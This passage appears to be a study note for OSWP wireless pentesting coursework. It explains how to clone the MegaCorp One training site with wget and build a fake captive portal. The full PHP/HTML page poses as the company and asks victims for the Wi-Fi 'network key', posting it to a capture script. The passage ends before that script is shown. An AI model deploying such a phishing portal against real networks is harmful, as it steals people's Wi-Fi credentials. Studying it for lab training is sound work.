 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/h-captive-portals/"}
---
```


-----------
### Set up php portal:
1. Recursively download index page:
```
wget -r -l2 https://www.megacorpone.com
```
2. Create index page in /var/www/html/portal
```
<!DOCTYPE html>
<html lang="en">

	<head>
		<link href="assets/css/style.css" rel="stylesheet">
		<title>MegaCorp One - Nanotechnology Is the Future</title>
	</head>
	<body style="background-color:#000000;">
		<div class="navbar navbar-default navbar-fixed-top" role="navigation">
			<div class="container">
				<div class="navbar-header">
					<a class="navbar-brand" style="font-family: 'Raleway', sans-serif;font-weight: 900;" href="index.php">MegaCorp One</a>
				</div>
			</div>
		</div>

		<div id="headerwrap" class="old-bd">
			<div class="row centered">
				<div class="col-lg-8 col-lg-offset-2">
					<?php
						if (isset($_GET["success"])) {
							echo '<h3>Login successful</h3>';
							echo '<h3>You may close this page</h3>';
						} else {
							if (isset($_GET["failure"])) {
								echo '<h3>Invalid network key, try again</h3><br/><br/>';
							}
					?>
				<h3>Enter network key</h3><br/><br/>
				<form action="login_check.php" method="post">
					<input type="password" id="passphrase" name="passphrase"><br/><br/>
					<input type="submit" value="Connect"/>
				</form>
				<?php
						}
				?>
				</div>

				<div class="col-lg-4 col-lg-offset-4 himg ">
					<i class="fa fa-cog" aria-hidden="true"></i>
				</div>
			</div>
		</div>

	</body>
</html>
```
3. Move any assets from the downloaded folder to the portal directory.
4. Create login_check.php in the same dir and provide the path to the capture-file: